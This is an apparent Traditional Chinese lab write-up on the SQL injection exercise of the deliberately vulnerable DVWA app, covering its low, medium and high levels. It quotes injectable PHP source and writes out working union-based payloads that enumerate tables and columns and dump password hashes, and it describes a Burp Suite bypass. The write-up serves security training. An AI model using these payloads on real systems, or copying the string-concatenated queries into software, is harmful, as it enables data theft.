 ## SQL Injection 

SQL 注入是客戶端向應用程式輸入數據，透過插入sql查詢語句來進行攻擊
成功的SQL注入攻擊可以從數據庫中讀取敏感數據、修改資料庫數據，對資料庫進行管理操作

### LOW Level 

關鍵SourceCode
```php
 <?php

if(isset( $_REQUEST['Submit'])){
    // Get input
    $id = $_REQUEST['id'];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query) or die('<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>');

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

這個程式碼可以看出，對查詢語句id有完全信任，沒有進行任何過濾。
使用mysqli_fetch_assoc()函式取得資料後輸出。
![alt text](image.png)

輸入 1' or '1' = '1
讓語法變為恆等，秀出所有資料
![alt text](image-1.png)

判斷可控列

    ' or 1 = 1 order by 1 #

井字號代表註釋掉後面語法，order by 列位數
![alt text](image-2.png)

當order by 3 時會報錯，代表有兩列可控，只要知道這個訊息，就可以進行union 查詢
```
    1' union  select 1,2#  因為有兩列，所以後面的select 要放兩個column name 
```

取得database 名稱
```
    1' union select 1, database()#
```

獲取table 全部表名稱

    1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa' #

![alt text](image-3.png)

可以得知table 總共有guestbook、users這兩張表
獲取table欄位名稱

     1' or 1 = 1 union select 1,group_concat(column_name) from information_schema.columns  where table_name = 'users' #

![alt text](image-4.png)

取得password 

    1' or 1 = 1 union select group_concat(user_id),group_concat(password) from users #
![alt text](image-5.png)

### Medium Level 
文本框被換成下拉式選單
![alt text](image-6.png)

Source Code 
```php
    <?php

if(isset($_POST['Submit'])){
    // Get input
    $id = $_POST['id'];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
程式碼使用mysql_real_escape_string()保護
只說特殊字串都會被轉義

使用BurpSuite 抓包來修改字段，仍然可以造成攻擊

把資訊寫在抓包id中，進行攻擊。(其餘相同)
![alt text](image-7.png)

### HIGH Level 

輸入值將在另一個頁面輸入，而不是直接GET請求

![alt text](image-8.png)

```php
<?php

if(isset($_SESSION ['id'])){
    // Get input
    $id = $_SESSION['id'];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```
程式源碼只增加了 LIMIT 1 ，我們仍就可以用#註釋掉
![alt text](image-9.png)
查詢跟提交使用不同頁面顯示，目的是要防止sqlmap
sqlmap在注入過程無法查詢提交頁面上的查詢結果，因此收不到任何反饋，沒辦法更進一步注入



